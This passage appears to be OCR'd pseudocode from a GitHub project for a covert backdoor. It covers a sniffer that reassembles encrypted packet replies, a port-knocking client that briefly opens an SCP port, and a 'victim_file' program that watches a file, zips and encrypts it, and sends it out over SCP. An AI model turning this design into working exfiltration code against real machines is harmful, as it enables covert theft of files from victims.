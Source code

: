 ```

    sniff for response\_packet

        IF response\_packet.numberOfpackets == 1

            DECRYPT response\_packet.reply

            PRINT reply

            RETURN

        ELSE

            FOR numberOfpackets

                sniff for multi packet response

                reply += reponse\_packet.reply

                sendConfirmationPacket(response\_packet.packetnumber)

            END FOR

            DECRYPT reply

            PRINT REPLY

        END IF

END FUNCTION
```
**program: client\_file**
```
DO sniff for file\_knock packet

    IF authenticated file\_trigger packet

        OPEN scp\_port

        SLEEP for portopen\_duration

        CLOSE scp\_port

    ENDIF

UNTIL program terminated
```
**program: victim\_file**
```
READ from args file\_path, file\_key, SCP\_auth

DO watch file\_path

    IF file\_path triggered

        ZIP file and encrypte with file\_key

        SEND file\_knock packet

        SCP zip file using SCP\_auth auth parameters

    END IF

UNTIL program terminated
```
